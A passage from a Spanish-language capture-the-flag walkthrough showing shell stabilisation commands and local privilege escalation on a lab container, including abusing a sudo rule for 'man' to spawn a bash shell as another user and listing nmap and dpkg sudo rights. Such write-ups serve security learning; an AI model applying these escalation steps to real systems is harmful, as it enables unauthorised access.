 ```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS

Comprobamos permisos `sudo` y `SUID`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for www-data on 5f4ca3874341:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 5f4ca3874341:
    (pingu) NOPASSWD: /usr/bin/man
```

Vemos que podemos ejecutar el binario `man` con privilegios del usuario `pingu`. Lo aprovechamos de la siguiente manera:

```bash
sudo -u pingu man man
```

Cuando tengamos abierta la interfaz de `man`, ejecutamos el comando `!/bin/bash` y pivotamos con éxito a dicho usuario.


Una vez como usuario pingu volvemos a comprobar permisos `sudo` y `SUID`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for pingu on 5f4ca3874341:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on 5f4ca3874341:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg
```

